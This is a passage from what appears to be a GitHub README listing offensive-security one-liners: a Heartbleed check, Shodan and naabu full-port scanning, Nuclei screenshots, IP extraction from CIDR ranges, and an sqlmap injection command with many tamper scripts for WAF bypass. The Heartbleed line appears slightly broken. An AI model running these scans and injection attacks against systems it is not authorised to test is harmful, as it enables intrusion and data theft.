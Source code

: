 ## HeartBleed

[](https://github.com/0xPugal/One-Liners#heartbleed)

```
cat urls.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line; safe; done
```

---

## Scan IPs

[](https://github.com/0xPugal/One-Liners#scan-ips)

```
cat my_ips.txt | xargs -L 100 shodan scan submit --wait 0
```

## Portscan

[](https://github.com/0xPugal/One-Liners#portscan)

```
naabu -l targets.txt -rate 3000 -retries 3 -warm-up-time 0 -rate 150 -c 50 -ports 1-65535 -o out.txt
```

## Screenshots using Nuclei

[](https://github.com/0xPugal/One-Liners#screenshots-using-nuclei)

```
nuclei -l target.txt -headless -t nuclei-templates/headless/screenshot.yaml -v
```

## IPs from CIDR

[](https://github.com/0xPugal/One-Liners#ips-from-cidr)

```
echo cidr | httpx -t 100 | nuclei -id ssl-dns-names | cut -d " " -f7 | cut -d "]" -f1 |  sed 's/[//' | sed 's/,/\n/g' | sort -u 
```

## SQLmap Tamper Scripts - WAF bypass

[](https://github.com/0xPugal/One-Liners#sqlmap-tamper-scripts---waf-bypass)

```
sqlmap -u 'http://www.site.com/search.cmd?form_state=1' --level=5 --risk=3 --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes --no-cast --no-escape --dbs --random-agent
```

